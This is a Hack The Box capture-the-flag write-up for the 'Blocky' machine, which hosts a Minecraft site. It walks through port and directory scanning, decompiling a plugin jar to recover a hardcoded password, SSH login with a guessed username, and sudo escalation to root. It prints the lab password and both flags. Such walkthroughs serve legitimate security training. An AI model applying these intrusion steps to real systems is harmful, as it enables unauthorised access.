

# Hack The Box - Blocky Writeup

We start with a lazy nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap 10.129.7.193           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-02 13:42 EDT
Stats: 0:00:45 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 36.45% done; ETC: 13:44 (0:01:18 remaining)
Nmap scan report for 10.129.7.193
Host is up (0.77s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos

Nmap done: 1 IP address (1 host up) scanned in 105.28 seconds
```

Little bit  interesting, we have a 21. That's always worth checking out. However, attempting the anonymous login fails, so we move onto scanning the web port.


```
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://blocky.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


We get a lot of worpress items:


```
200      GET      326l     1144w    10330c http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/html5.js
200      GET        1l       61w     5483c http://blocky.htb/wp-includes/js/heartbeat.min.js
200      GET      387l     1284w    11809c http://blocky.htb/wp-includes/js/admin-bar.js
200      GET      117l      402w     3306c http://blocky.htb/wp-includes/js/wp-auth-check.js
200      GET        1l       37w     7413c http://blocky.htb/wp-includes/js/wp-lists.min.js
200      GET        1l       19w     3461c http://blocky.htb/wp-includes/js/customize-loader.min.js
200      GET        1l       64w    11072c http://blocky.htb/wp-includes/js/wplink.min.js
200      GET      673l     2233w    19303c http://blocky.htb/wp-includes/js/customize-preview-widgets.js
200      GET      247l      549w     5873c http://blocky.htb/wp-includes/js/customize-models.js
200      GET        6l     1435w    97184c http://blocky.htb/wp-includes/js/jquery/jquery.js
200      GET        1l       45w     5050c http://blocky.htb/wp-includes/js/customize-preview-nav-menus.min.js
```


outside of the wordpress items, we also see some other interesting stuff, such as a plugins directory with jar files:


```
200      GET        5l       19w     1362c http://blocky.htb/plugins/files/BlockyCore.jar
```


Also, since I haven't mentioned it, this is a Minecraft server hosting website type box:

<figure><figcaption></figcaption></figure>

The plugins directory has two jars:

<figure><figcaption></figcaption></figure>

I go ahead and pull them down. These jars can easily be decompiled with jd-gui by simply opening them in the program (jd-gui), and doing so reveals the password "8YsqfCTnvxAUeduzjNSXe22" in the BlockyCore.jar:

<figure><figcaption></figcaption></figure>

Attempting to login as root fails. The "sendMessage" saying to get username hints that the username is not actually root. However, enumerating the website just a little more does reveal another username:

<figure><figcaption></figcaption></figure>

Sounds fitting, let's try it out:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat /usr/share/wordlists/dirbuster/directory-list-1.0.txt | grep -i sparklays                       
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:24:50 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt 
eD491483aDEADBEEF3acc4e021b179b3
notch@Blocky:~$ 

```

Sweet. Let's do some quick enumeration. Pretty much the very first thing I always check, especially when I have the password, is sudo permissions. The second thing is a simple sudo su root.


```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ 
```


We can simply sudo su root and get the flag:

```
notch@Blocky:~$ sudo su root
root@Blocky:/home/notch# ls
minecraft  user.txt
root@Blocky:/home/notch# cat user^C
root@Blocky:/home/notch# cd /root
root@Blocky:~# cat ^C
root@Blocky:~# 
root@Blocky:~# ls
root.txt
root@Blocky:~# cat root.txt 
c5cbcd7c13DEADBEEF94393591014ec2
root@Blocky:~# 
```

This was an incredibly easy box. You simply needed to enumerate the web ports, see the jar files, decompile, brute force any users you have (only 2 in this case) with the password you gain, and then sudo su root.

The only hang-up I could see is locating the jar files. It definitely stresses the importance of using critical thinking, and tuning your web scanners. The critical thinking portion is simply knowing that Minecraft is a Java application, and havily utilizes jar files. However, I even saw them without specifically tuning for jars.
